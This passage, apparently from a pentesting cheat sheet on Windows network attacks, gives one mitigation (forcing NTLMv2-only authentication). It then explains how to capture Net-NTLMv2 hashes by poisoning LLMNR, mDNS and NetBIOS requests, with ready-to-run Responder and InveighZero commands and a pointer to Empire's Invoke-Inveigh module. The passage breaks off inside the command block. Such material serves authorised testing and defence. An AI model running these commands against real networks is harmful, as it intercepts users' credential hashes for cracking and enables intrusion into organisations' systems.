 **Mitigations**:

- Set the Lan Manager authentication level to `Send NTLMv2 responses only. Refuse LM & NTLM`

## Capturing and cracking Net-NTLMv2/NTLMv2 hashes

If any user in the network tries to access a machine and mistype the IP or the name, Responder will answer for it and ask for the NTLMv2 hash to access the resource. Responder will poison `LLMNR`, `MDNS` and `NETBIOS` requests on the network.

```powershell
# https://github.com/lgandx/Responder
$ sudo ./Responder.py -I eth0 -wfrd -P -v

# https://github.com/Kevin-Robertson/InveighZero
PS > .\inveighzero.exe -FileOutput Y -NBNS Y -mDNS Y -Proxy Y -MachineAccounts Y -DHCPv6 Y -LLMNRv6 Y [-Elevated N]

# https://github.com/EmpireProject/Empire/blob/master/data/module_source/collection/Invoke-Inveigh.ps1
